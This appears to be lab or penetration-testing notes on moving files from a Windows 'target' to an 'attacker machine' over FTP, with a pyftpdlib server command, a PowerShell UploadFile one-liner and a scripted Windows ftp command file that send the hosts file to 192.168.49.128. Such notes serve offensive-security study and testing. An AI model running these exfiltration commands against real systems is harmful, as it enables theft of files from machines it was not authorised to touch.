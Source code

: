 
## **1. Start an FTP Server (Attacker Machine)**

Use Python’s `pyftpdlib` with **upload support**:

```bash
sudo python3 -m pyftpdlib --port 21 --write
```

**Note:**  
If you see:

```
write permissions assigned to anonymous user
```

That just means anonymous uploads are allowed.

---

## **2. Upload a File with PowerShell (Target Machine)**

Run this command on the target:

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

This uploads the `hosts` file from the target to the attacker’s FTP server as `ftp-hosts`.

---

## **3. Upload Using Windows FTP Client (Target Machine)**

If PowerShell isn’t available, create a scriptable command file for FTP:

```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
```

Then execute it:

```cmd
ftp -v -n -s:ftpcommand.txt
```

This will send the file automatically without interactive prompts.

---

## **4. Tips**

- Always use **binary mode** to avoid file corruption.
    
- Make sure **port 21** is open and reachable.
    
- Enable authentication for better security if needed.
    
- For sensitive files, use **FTPS** or **SFTP** instead for encryption.
    

---